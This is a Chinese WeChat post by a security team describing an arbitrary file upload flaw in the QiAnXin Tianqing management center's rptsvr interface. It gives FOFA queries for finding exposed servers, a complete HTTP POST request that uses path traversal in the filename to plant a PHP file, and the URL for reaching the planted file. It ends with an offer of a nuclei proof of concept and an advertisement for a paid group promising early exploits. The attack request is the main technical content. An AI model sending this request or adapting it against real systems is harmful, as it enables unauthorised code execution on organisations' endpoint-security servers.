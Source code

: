 #  奇安信 天擎 rptsvr 任意文件上传

原创 天澜实验室 [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

  

 **00**

 **漏洞概述**

![]()

奇安信 天擎管理中心 <=V6.7.0.4130 版本的rptsvr接口存在任意文件上传漏洞，可上传恶意至服务器，执行脚本文件。

 **01**

 **空间搜索语法**

![]()

FoFa

banner="QiAnXin web server" || banner="360 web server"  ||
body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" ||
body="已过期或者未授权，购买请联系4008-136-360"

 **02**

 **利用过程**

![]()

登录页面如下

![]()

上传数据包如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /rptsvr/upload HTTP/1.1Host: User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36Connection: closeContent-Length: 414Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Encoding: gzip, deflate, brAccept-Language: en-US,en;q=0.5Content-Type: multipart/form-data;boundary=---------------------------55433477442814818502792421460Upgrade-Insecure-Requests: 1  
    -----------------------------55433477442814818502792421460Content-Disposition: form-data; name="uploadfile"; filename="../../../application/api/controllers/TController2.php"Content-Type: text/x-python  
    <?phpphpinfo();?>-----------------------------55433477442814818502792421460Content-Disposition: form-data; name="token"  
    skylar_report-----------------------------55433477442814818502792421460

![]()

访问上传文件路径如下：  

  * 

    
    
    http://xxxx/application/api/controllers/TController.php

![]()

 **03**

 **nuclei poc**

![]()

![]()

获取脚本关注本公众号后发送：qaxtq1

 **04**

 **星球简介**

![]()

 **考虑到团队运营成本和公众号** **福利发放** **，创建知识星球欢迎各位师傅打赏💰** **后期会用打赏的资金去** **做福利**
**。星球的性价比真的比较可观，绝对不会因为某些身外之物水文章，安全圈很小，主要是和师傅们** **交个朋友**
**。还请各位师傅监督团队后边的表现，将心比心![](https://res.wx.qq.com/t/wx_fed/we-
emoji/res/v1.3.10/assets/Expression/Expression_67@2x.png) ！**

  

 **进入星球你能直接收获到：**

  1. 优先于公众号的POC更新（提前一两周~~）

  2. 定制化的成品工具开发

  3. 私人定制的客户需求（要求不要太过分呦~~）

  4. 实战技巧、攻防思路

  5. 杂七杂八的技术小福利

  6. 根据能力不定期的星球内部抽奖

  7. 更多漏洞利用Tips  

  

欢迎各位师傅加入哦~～

![]()

进入星球直接能学习到这些漏洞：

![]()

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 奇安信 天擎 rptsvr 任意文件上传

原创 天澜实验室 [ 天澜实验室 ](javascript:void\(0\);)

轻触阅读原文

![]()

天澜实验室

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

